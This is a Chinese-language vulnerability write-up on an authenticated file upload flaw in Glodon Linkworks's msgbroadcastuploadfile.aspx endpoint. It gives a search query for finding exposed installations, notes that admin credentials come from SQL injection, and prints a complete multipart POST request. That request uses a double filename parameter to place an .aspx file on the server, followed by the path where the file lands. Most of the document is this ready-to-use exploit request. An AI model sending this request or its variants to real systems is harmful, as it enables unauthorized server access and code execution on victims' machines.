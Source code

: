 # 广联达 Linkworks msgbroadcastuploadfile.aspx 后台文件上传漏洞

## 漏洞描述

广联达 Linkworks msgbroadcastuploadfile.aspx 存在后台文件上传漏洞，攻击者通过SQL注入获取管理员信息后，可以登陆发送请求包获取服务器权限

## 漏洞影响

广联达 Linkworks

## 网络测绘

```
web.body="/Services/Identification/"
```

## 漏洞复现

登陆页面

![image-20230828150337640](images/image-20230828150337640.png)

GTP.IM.Services.Group.WebSite.GTP.IM.Services.Group 存在文件上传，上传后在当前目录 Upload下

![image-20230828150355277](images/image-20230828150355277.png)

通过SQL注入获取管理员账号密码后登陆后台上传文件,验证POC

```
POST /gtp/im/services/group/msgbroadcastuploadfile.aspx HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Cookie: 0_styleName=styleA

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; filename="1.aspx";filename="1.jpg"
Content-Type: application/text

Test

------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

![image-20230828150407255](images/image-20230828150407255.png)

```
/GTP/IM/Services/Group/Upload/xxx-xxx-test.aspx
```

![image-20230828150419196](images/image-20230828150419196.png)